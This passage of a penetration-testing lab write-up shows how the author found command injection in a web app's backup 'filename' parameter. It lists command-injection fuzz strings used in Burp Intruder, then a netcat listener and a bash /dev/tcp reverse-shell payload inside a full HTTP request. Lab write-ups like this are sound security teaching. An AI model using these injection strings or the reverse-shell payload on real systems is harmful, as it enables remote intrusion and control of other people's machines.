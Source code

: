 We are using now our `burpsuite` `intruder` to check the output for the following test strings.  
We make the `intruder` changing the value `filename` in the `POST` request with every iteration.

```
;id
|id
`id`
$i()d
;$i()d
|$i()d
FAIL||;$i()d
&&id
&id
FAIL_INTENT|id
FAIL_INTENT||id
`sleep 5`
`sleep 10`
`id`
$(sleep 5)
$(sleep 10)
$(id)
;`echo 'aWQK' |base64 -d`
FAIL_INTENT|`echo 'aWQK' |base64 -d`
FAIL_INTENT||`echo 'aWQK' |base64 -d`
```

Reviewing the output of the `intruder` reveals that `$(sleep 5)` seems to work.  
This means that a command injection with `$()` is possible

## `RCE` with backup feature
We are starting with creating a reverse shell to execute commands on the target interactively.

### start listener on attacker machine
```bash
$ nc -lvp 80                          
listening on [any] 80 ...
```

### trigger reverse shell
payload: `$(bash -c 'bash -i >& /dev/tcp/192.168.49.135/80 0>&1')`
```http
GET /api/backup?filename=$(bash+-c+'bash+-i+>%26+/dev/tcp/192.168.49.135/80+0>%261')	 HTTP/1.1
Host: 192.168.135.106
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Referer: http://192.168.135.106/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: connect.sid=s%3AMJ1jG892oKVwRi3rIMKyjsDm5uBSY8Vd.ZOktdXW76go01TGeemuMa%2BzSdZYoPowTicSZVFdGyzY
Connection: close
```

